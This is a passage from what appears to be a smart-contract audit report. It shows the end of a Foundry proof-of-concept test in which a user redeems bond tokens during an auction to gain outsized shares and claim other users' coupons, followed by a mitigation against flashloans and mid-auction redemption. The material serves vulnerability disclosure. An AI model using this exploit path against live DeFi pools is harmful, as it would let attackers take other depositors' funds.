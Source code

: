 ```solidity
        console.log("\n====== Chad redeems all his bTokens ======");
        pool.redeem( //chad redeems in several steps so that the slippage is not too high
            Pool.TokenType.BOND,
            1000e18,
            0
        );
        pool.redeem(
            Pool.TokenType.BOND,
            1000e18,
            0
        );
        pool.redeem(
            Pool.TokenType.BOND,
            1000e18,
            0
        );
        pool.redeem(
            Pool.TokenType.BOND,
            691406671051073416763,
            0
        );
        vm.stopPrank();
        console.log("chad bToken: ", bToken.balanceOf(chad)); //Shows that chad redeemed all of his bToken

        console.log("pool rToken: ", rToken.balanceOf(address(pool)));
        //Shows that chad got a lot of shares. If this auction fails the attacker's large share amount will no longer be taken into account in the next auction, but
        //he will still be able to claim his tokens at the expense of other users after the next successful auction. Because he can then claim their coupons with 
        //his shares
        console.log("chad shares: ", bToken.getIndexedUserAmount(address(chad), 0, 1));


        //As you can see from these logs, it is very unlikely that this auction will be successful because around 184,570 USDC would have to be bought but only 
        //almost 7 Ether could be sold, which is approximately $21,000 because the price of ETH in this POC is $3000
    }
}
```
3. The POC can be started with the command `forge test --mt test_POC -vv`

### Mitigation

An attacker should not be able to get shares within one transaction otherwise there is a risk of flashloans. In addition, it should not be possible to redeem during an auction, otherwise fewer reserve tokens will be sold than actually expected, which can lead to the sale limit being very low and an auction failing.